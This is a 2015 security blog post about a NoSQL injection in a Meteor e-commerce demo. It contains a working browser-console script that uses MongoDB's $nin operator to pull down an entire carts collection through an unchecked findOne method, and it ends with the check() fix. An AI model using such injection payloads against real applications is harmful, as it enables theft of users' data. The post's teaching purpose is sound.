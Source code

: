 ```yaml
---
layout: post
title:  "Exploiting findOne to Aggregate Collection Data"
titleParts: ["Exploiting findOne", "to Aggregate Collection Data"]
excerpt: "With some clever querying, 'findOne' MongoDB queries can be explored to aggregate an entire collection's worth of data on behalf of an attacking user."
author: "Pete Corey"
date:   2015-07-21
tags: ["Javascript", "Meteor", "Security", "NoSQL Injection"]
---
```


After watching [Rob Conery's](http://rob.conery.io/) awesome [series of screencasts](http://www.pluralsight.com/courses/discussion/meteorjs-web-application) detailing how to build an eCommerce application using [Meteor](https://www.meteor.com/), I was excited to dig into his code. Along with [finding a few other security vulnerabilities](https://github.com/robconery/meteor-shop/pull/1), I had fun playing with an interesting way of exploiting a <code class="language-javascript">findOne</code> query to aggregate data from a Mongo collection.

To get started, take a look at this <code class="language-javascript">getCart</code> method defined in [shopping_cart.js:30-32](https://github.com/robconery/meteor-shop/blob/d667a93ba3a116f1d65534b384099bc9e8230e80/lib/shopping_cart.js#L30-L32):

<pre class="language-javascript"><code class="language-javascript">getCart : function(userKey){
  return Carts.getCart(userKey);
}
</code></pre>

And the corresponding <code class="language-javascript">Carts.getCart</code> method in [carts.js](https://github.com/robconery/meteor-shop/blob/d667a93ba3a116f1d65534b384099bc9e8230e80/lib/collections/carts.js#L3-L25):

<pre class="language-javascript"><code class="language-javascript">Carts.getCart = function(userKey){
  var cart = Carts.findOne({userKey : userKey});
  ...
  return cart;
};
</code></pre>

The first thing you'll notice (I hope) is that the <code class="language-javascript">userKey</code> argument isn't being checked. Your horror may be tempered, though, when you notice that it's being passed into a <code class="language-javascript">findOne</code> query instead of a <code class="language-javascript">find</code>.

What's the worst thing a hacker could do? Sure, they might get a single random Cart by passing in a query like <code class="language-javascript">{$gt: ''}</code>, but it's not like they can get at our whole collection, right?

... Right?!

<hr/>

Well, it turns out you can easily pull down all data from a collection using a <code class="language-javascript">findOne</code> query. Take a look at some code a malicious user could run in their browser's console to do just that:

<pre class="language-javascript"><code class="language-javascript">var carts = [];
function getCartAndSave(userKeys) {
    Meteor.call('getCart', {$nin: userKeys}, function(e, r) {
        if (e || !r || !r._id) {
            return;
        }
        carts.push(r);
        userKeys.push(r.userKey);
        getCartAndSave(userKeys);
    });
}
getCartAndSave(['']);
</code></pre>

And just like that, the entire <code class="language-javascript">carts</code> collection has been pulled down to the client. Let's dig into the code to see what's going on.

The key here is the <code class="language-javascript">$nin</code> [query operator](http://docs.mongodb.org/manual/reference/operator/query/nin/). We begin by calling <code class="language-javascript">getCart</code> and asking for a Cart who's <code class="language-javascript">userKey</code> is not in (<code class="language-javascript">$nin</code>) the array <code class="language-javascript">['']</code>. This will return a random Cart. We push this cart's <code class="language-javascript">userKey</code> onto the array and ask for a Cart who's <code class="language-javascript">userKey</code> is not in that array. This will return another random Cart from the collection that we haven't yet seen. We repeat this process until there are no more Carts to find, and we've aggregated all of the Carts on the client.

Now Mr. Malicious User can take his time perusing your potentially sensitive data.

<hr/>

Like most Meteor security issues, the fix for this is to [check](http://docs.meteor.com/#/full/check) your user-provided arguments:

<pre class="language-javascript"><code class="language-javascript">getCart : function(userKey){
  check(userKey, String);
  return Carts.getCart(userKey);
}
</code></pre>

Now, a malicious user can't pass an object into the <code class="language-javascript">getCart</code> method. They may only pass a String, and will only be able to find a Cart if they know its <code class="language-javascript">userKey</code>.

Never allow users to pass arbitrary data into your queries!
